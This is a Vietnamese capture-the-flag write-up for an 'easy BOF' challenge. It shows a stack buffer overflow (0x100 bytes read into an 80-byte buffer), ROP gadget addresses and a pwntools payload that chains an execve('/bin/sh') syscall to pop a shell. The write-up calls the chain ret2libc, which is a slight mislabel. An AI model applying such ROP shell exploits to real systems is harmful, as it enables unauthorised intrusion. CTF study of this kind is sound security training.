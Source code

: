 # easy BOF

Kiểm tra các chế độ bảo vệ của chương trình:

![image](https://user-images.githubusercontent.com/93699926/236652979-b3a1716b-1f8f-43d1-b484-2eb0fc2561fe.png)

Kiểm ta chương trình ta thấy chương trình có lỗi BOF như sau :

![image](https://user-images.githubusercontent.com/93699926/236653021-841bca52-1ffd-4b89-936e-350e84ff176e.png)

Chương trình sẽ đọc 0x100 bytes vô biến v2 được khai báo có 80bytes. Vậy đây rõ ràng là lôi BOF .vVì PIE tắt nên ta sẽ có exe base. giờ đi kiếm gadget trong file exe:
`ropper --f chall`.Hơn nữa khi kiểm tra thì trong file exe có sẵn '/bin/sh' nên ta sẽ sử dụng luôn..padding tới địa chỉ saved rbp, ghi đè rbp với một đại chỉ hợp lệ , rồi tạo ROPCHAIN để ret2libc.

```python3 
pop_rax=0x0000000000401085
pop_rsi=0x0000000000401081
pop_rdi=0x000000000040107f
pop_rdx=0x0000000000401083
syscall=0x000000000040100a
offset=0x58
binsh=0x402010
```

Vậy payload của ta như sau :

```python3
payload=b"A"*0x50+p64(0x00000000402a00)
payload+=flat(
        pop_rax,0x3b,
        pop_rdi,binsh,
        pop_rdx,0,
        pop_rsi,0,
        syscall
        )
```

full script in p.py

Chạy chương trình ta có flag:

![image](https://user-images.githubusercontent.com/93699926/236653146-98c74fd9-76b5-40f7-ab77-20374a02a3aa.png)
